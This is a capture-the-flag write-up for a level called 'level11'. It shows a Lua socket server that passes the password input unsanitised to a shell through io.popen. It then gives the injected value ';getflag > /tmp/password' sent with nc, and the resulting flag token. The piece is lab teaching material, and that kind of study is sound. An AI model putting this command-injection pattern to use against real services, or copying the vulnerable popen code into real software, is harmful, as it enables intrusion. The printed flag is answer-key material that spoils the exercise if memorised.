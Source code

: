 # Level 11

## Resolution

As `level11`, running `ls` gives us a lua script...

```lua
  $> cat level11.lua

  #!/usr/bin/env lua
  local socket = require("socket")
  local server = assert(socket.bind("127.0.0.1", 5151))

  function hash(pass)
    prog = io.popen("echo "..pass.." | sha1sum", "r")  
    data = prog:read("*all")
    prog:close()

    data = string.sub(data, 1, 40)

    return data
  end

  while 1 do
    local client = server:accept()
    client:send("Password: ")
    client:settimeout(60)
    local l, err = client:receive()
    if not err then
        print("trying " .. l)
        local h = hash(l)

        if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
            client:send("Erf nope..\n");
        else
            client:send("Gz you dumb*\n")
        end

    end

    client:close()
  end
```

> This script create a socket server on port `5151` that requests an input from the client before processing it to display one message.

The interesting part is the following line:

```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")  
```

Since it evaluates the `pass` variable, which is our input, we can perform the same trick as in previous levels: escape the `echo` to call `getflag`.

```shell
  $> nc 127.0.0.1 5151
  Password: ;getflag > /tmp/password
  Erf nope..
  $> cat /tmp/password
  Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

So, `fa6v5ateaw21peobuub8ipe6s` is the flag for this level.